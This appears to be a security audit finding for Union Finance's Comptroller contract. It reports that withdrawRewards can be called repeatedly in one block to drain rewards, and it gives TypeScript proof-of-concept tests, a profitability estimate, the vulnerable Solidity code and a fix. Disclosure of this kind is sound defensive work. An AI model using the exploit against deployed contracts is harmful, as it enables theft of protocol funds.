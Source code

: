 Bahurum

high

# `Comptroller:withdrawRewards` leaks rewards

## Summary
`Comptroller:withdrawRewards` can be called multiple times in the same block, and each time gives to the sender the rewards corresponding to one block. This could be exploited profitably to drain rewards from the Comptroller. Profitability depends mostly on the market price of the `UnionToken`.

## Vulnerability Detail
`Comptroller:withdrawRewards` gives 1 block worth of rewards each time it is called repeatedly in the same block. If the reward rate is 0.0006% per block, and the maximum staked amount is 100 000 DAI, then 0.6 tokens are dripped each time the function is called. If ETH is at 1500 and gas is 5 gwei, and each call takes 75 000 gas, the gas cost of one call is 0.5 USD. The attack is profitable in this scenario with a price of UnionToken > 1 USD. Profitablity finally depends on max stake amount and UnionToken price.

 For a coded PoC, add the following tests after the test `"withdraw rewards from comptroller"` in `staking.ts`:

```typescript
        it("PoC: gets rewards in the same block as staking", async () => {
            // await roll(100);
            const rewards = await contracts.comptroller.calculateRewardsByBlocks(
                deployerAddress,
                contracts.dai.address,
                1
            );
            console.log("rewards to withdraw: ", rewards.toBigInt()); 
            const balanceBefore = await contracts.unionToken.balanceOf(deployerAddress);
            await contracts.userManager.withdrawRewards();
            const balanceAfter = await contracts.unionToken.balanceOf(deployerAddress);
            console.log("rewards withdrawn: ", (balanceAfter.sub(balanceBefore)).toBigInt()); 
            expect(balanceAfter.sub(balanceBefore).gt(BigInt(0)));
        });
        it("PoC: can withdraw rewards multiple times in the same block", async () => {
            await roll(100);
            const rewards = await contracts.comptroller.calculateRewardsByBlocks(
                deployerAddress,
                contracts.dai.address,
                1
            );
            console.log("rewards to withdraw: ", rewards.toBigInt()); 
            const balanceBefore = await contracts.unionToken.balanceOf(deployerAddress);
            await contracts.userManager.withdrawRewards();
            let balanceAfter = await contracts.unionToken.balanceOf(deployerAddress);
            expect(balanceAfter.sub(balanceBefore)).eq(rewards);  // withdrawing first time is OK
            await contracts.userManager.withdrawRewards();
            await contracts.userManager.withdrawRewards();
            balanceAfter = await contracts.unionToken.balanceOf(deployerAddress);
            console.log("rewards withdrawn: ", (balanceAfter.sub(balanceBefore)).toBigInt()); 
            expect(balanceAfter.sub(balanceBefore)).gt(rewards);  // can actually withdraw additional rewards in the same block
        });
```

## Impact
This can be exploited profitably to drain rewards from the Comptroller. Profitability depends mostly on the market price of the `UnionToken`.

## Code Snippet
https://github.com/sherlock-audit/2022-10-union-finance/blob/main/union-v2-contracts/contracts/token/Comptroller.sol#L443-L466

```solidity
    function _calculateRewards(
        address account,
        address token,
        uint256 totalStaked,
        uint256 userStaked,
        uint256 frozenCoinAge,
        uint256 pastBlocks,
        uint256 inflationIndex
    ) internal view returns (uint256) {
        uint256 startInflationIndex = users[account][token].inflationIndex;
        if (userStaked * pastBlocks < frozenCoinAge) revert FrozenCoinAge();

        if (userStaked == 0 || totalStaked == 0 || startInflationIndex == 0 || pastBlocks == 0) {
            return 0;
        }

        uint256 effectiveStakeAmount = (userStaked * pastBlocks - frozenCoinAge) / pastBlocks;

        uint256 curInflationIndex = _getInflationIndexNew(totalStaked, pastBlocks);

        if (curInflationIndex < startInflationIndex) revert InflationIndexTooSmall();

        return (curInflationIndex - startInflationIndex).wadMul(effectiveStakeAmount).wadMul(inflationIndex);
    }
```
## Tool used

Manual Review

## Recommendation
Calculation of rewards should be corrected to return 0 when already called in the same block. Introduce a specific test to avoid the reported behavior.